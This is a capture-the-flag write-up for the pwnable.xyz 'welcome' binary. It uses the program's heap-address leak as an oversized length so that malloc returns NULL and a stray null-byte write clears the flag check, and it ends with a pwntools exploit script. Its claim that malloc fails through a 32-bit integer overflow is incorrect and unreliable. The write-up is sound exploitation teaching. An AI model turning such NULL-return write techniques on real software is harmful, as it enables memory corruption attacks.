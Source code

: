 ```yaml
---
title: pwnable.xyz - welcome
date: '2025-05-22'
tags: ['pwn', 'malloc', 'pwnablexyz']
draft: false
summary: malloc failing by integer overflow causing NULL
---
```


## Analysis

We are given a binary with the following protections

```
❯ checksec challenge

[*] '/home/mfkrypt/pwn-learning-notes/pwnablexyz/welcome/challenge'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
```

We can observe all protections are enabled. Running the binary itself reveals a leak

![Description](/static/images/pwnablexyz/1.png)

Let us now check the decompiled source

```c
undefined8 main(void)

{
  long *malloc_ret;
  void *buffer;
  long in_FS_OFFSET;
  size_t length;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();

  puts("Welcome.");
  malloc_ret = (long *)malloc(262144);
  *malloc_ret = 1;  // Stores the integer 1 at the beginning of that allocated memory

  __printf_chk(1,"Leak: %p\n",malloc_ret);
  __printf_chk(1,"Length of your message: ");

  length = 0;
  __isoc99_scanf(&DAT_00100c50,&length);
  buffer = malloc(length);
  __printf_chk(1,"Enter your message: ");

  read(0,buffer,length);
  *(undefined *)((long)buffer + (length - 1)) = 0;

  write(1,buffer,length);
  if (*malloc_ret == 0) {
    system("cat /flag");
  }

  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  
  return 0;
}
```

We can see over here:

```c
malloc_ret = (long *)malloc(262144);
*malloc_ret = 1;
```

`malloc` returns a pointer, `malloc_ret` and assigned an integer value of `1` . It will probably look like this in memory:

```
0x7fad99950010:  0x0000000000000001
```

In this line:

```c
 __printf_chk(1,"Leak: %p\n",malloc_ret);
```

It leaks the heap address of the returned `malloc` pointer. Other than that,&#x20;

```c
__isoc99_scanf(&DAT_00100c50,&length);
buffer = malloc(length);

read(0,buffer,length);
```

Allocates the `length` we input which is a `long integer` type to allocate memory to a buffer and then reads up the buffer up to the `length` .

And the part below writes a null byte at the last byte of the input buffer

```c
*(undefined *)((long)buffer + (length - 1)) = 0;
write(1,buffer,length);
```

if the returned `malloc` integer value is `0` , we get the flag

```c
if (*malloc_ret == 0) {
    system("cat /flag");
  }
```

***

## Plan

Looking at the man page of `malloc`

![Description](/static/images/pwnablexyz/2.png)

On error, `malloc` returns NULL . Okay, soooo how does this affect what we are going to do? Well, since the program leaks an address, we can take advantage of that address and use it as a size to fail `malloc` when it allocates memory.

The leaked heap pointer isn’t used as a pointer in the logic — it’s used as a large number to trigger `malloc` failure.

Why does it error or fail? For example, the leaked pointer address is `0x7fb304b31010` the equivalent in decimal is `140406854717456` . That is 14TB of memory which is way too huge since the max value for `unsigned int` is `4,294,967,295` .

![Description](/static/images/pwnablexyz/3.png)

On a 32-bit `unsigned int`, very large values like the leaked address, `0x7fb304b31010` will overflow and may result in a small or even negative signed `int` when passed to `malloc`, which causes it to fail and return `NULL`

After overflowing the pointer of `malloc` In this line:

```c
*(undefined *)((long)buffer + (length - 1)) = 0;
```

the `buffer` turns to `NULL` after the error:

```c
NULL + length - 1 = length - 1
```

That `length - 1` ends up being **exactly** the leaked address `malloc_ret` . So to make up for this we need to input the `leak_address + 1` to cancel the `length - 1` . But we need to convert them into a `str` type because `scanf` here expects a string input of the `unsigned long int` .

## Exploit

We can manipulate `length` such that `malloc(length)` returns `NULL`, and therefore `buffer = NULL`. Then:

```c
*(buffer + length - 1) = 0;
// becomes:

*(NULL + leaked_address) = 0;
// which writes a zero byte to *malloc_ret
```

Here is the script:

```python
from pwn import *

elf = context.binary = ELF('./challenge', checksec=False)
libc = elf.libc

gs = '''
c
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


def exploit():
    io = start()

    io.recvuntil(b'Leak: ')
    leak = int(io.recvline(), 16)

    log.success(f"Leaked malloc address: {hex(leak)}")

    io.sendlineafter(b'Length of your message: ', str(leak + 1))
    io.sendlineafter(b'Enter your message: ', "cool")

    io.interactive()


if __name__ == "__main__":
    exploit()
```
